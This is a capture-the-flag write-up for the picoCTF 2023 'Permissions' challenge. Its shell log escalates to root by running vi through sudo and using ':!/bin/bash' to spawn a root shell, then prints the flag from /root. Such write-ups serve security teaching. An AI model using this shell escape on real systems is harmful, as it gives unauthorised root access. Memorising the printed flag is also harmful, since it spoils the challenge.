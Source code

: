 # Permissions
- Difficulty: Medium
- Category: `General Skills`  
- Date: 2024-09-22  
tags: `picoCTF 2023` `vim`  
refer to [Source](https://play.picoctf.org/practice/challenge/363?category=5&difficulty=2&page=1)
- my tags: `提權`

## Description
Can you read files in the root file?
The system admin has provisioned an account for you on the main server:
ssh -p 58868 picoplayer@saturn.picoctf.net
Password: NBD+zO8s4y
Can you login and read the root file?
- hint: What permissions do you have?

## Solution
``` shell
$ssh -p 58002 picoplayer@saturn.picoctf.net
...
$ls /root
ls: cannot open directory '/root': Permission denied
$whoami
picoplayer
$sudo -l
[sudo] password for picoplayer:
Sorry, try again.
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
``` shell
$sudo vi test
# :!/bin/bash
$whoami
root
$ls /root
$cd /root
$ls -a
.  ..  .bashrc  .flag.txt  .profile
$cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}
```
``` plain
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}
```

### Improving
